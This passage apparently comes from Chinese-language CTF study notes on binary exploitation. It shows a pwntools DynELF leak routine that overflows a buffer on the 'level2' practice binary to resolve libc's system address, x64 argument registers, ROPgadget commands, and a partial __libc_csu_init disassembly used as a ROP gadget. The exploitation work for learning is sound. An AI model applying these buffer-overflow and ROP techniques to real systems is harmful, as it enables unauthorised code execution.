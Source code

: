 DynELF的使用：
```python
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

d = DynELF(leak, elf=ELF('./level2'))
system_addr = d.lookup('system', 'libc')
```
-----
# x64 
## 传参区别
> * 前六个参数保存顺序 : **RDI, RSI, RDX, RCX, R8, R9**

## gadgets
> * 找ROP： **ROPgadget --binary level4 --only "pop|ret"**
> * 过滤： **ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi**

## 通用gadgets part1
__libc_csu_init()下：
```bash
.text:0000000000400840                 public __libc_csu_init
.text:0000000000400840 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:0000000000400840                 push    r15
.text:0000000000400842                 mov     r15d, edi
.text:0000000000400845                 push    r14
.text:0000000000400847                 mov     r14, rsi
.text:000000000040084A                 push    r13
.text:000000000040084C                 mov     r13, rdx
.text:000000000040084F                 push    r12
.text:0000000000400851                 lea     r12, __frame_dummy_init_array_entry
.text:0000000000400858                 push    rbp
.text:0000000000400859                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:0000000000400860                 push    rbx
.text:0000000000400861                 sub     rbp, r12
.text:0000000000400864                 xor     ebx, ebx
.text:0000000000400866                 sar     rbp, 3
.text:000000000040086A                 sub     rsp, 8
.text:000000000040086E                 call    _init_proc
.text:0000000000400873                 test    rbp, rbp
.text:0000000000400876                 jz      short loc_400896
.text:0000000000400878                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400880
.text:0000000000400880 loc_400880:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400880                 mov     rdx, r13
.text:0000000000400883                 mov     rsi, r14
.text:0000000000400886                 mov     edi, r15d
.text:0000000000400889                 call    qword ptr [r12+rbx*8]
.text:000000000040088D                 add     rbx, 1
.text:0000000000400891                 cmp     rbx, rbp
.text:0000000000400894                 jnz     short loc_400880
.text:0000000000400896
.text:0000000000400896 loc_400896:                             ; CODE XREF: __libc_csu_init+36j
.text:0000000000400896                 add     rsp, 8
.text:000000000040089A                 pop     rbx
.text:000000000040089B                 pop     rbp
.text:000000000040089C                 pop     r12
```